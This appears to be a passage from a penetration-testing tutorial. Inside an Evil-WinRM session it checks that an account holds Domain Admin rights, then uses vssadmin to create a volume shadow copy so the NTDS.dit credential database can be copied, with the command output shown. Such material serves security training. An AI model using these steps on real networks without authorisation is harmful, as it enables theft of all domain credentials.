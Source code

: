 ### **Checking user account privileges including domain**

```powershell
*Evil-WinRM* PS C:\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

### **Creating shadow copy of C:**

We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the `C:` drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on `C:` as that is the default location selected at install, but it is possible to change the location. We use VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down. VSS is used by many different backup and disaster recovery software to perform operations.

```powershell
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```
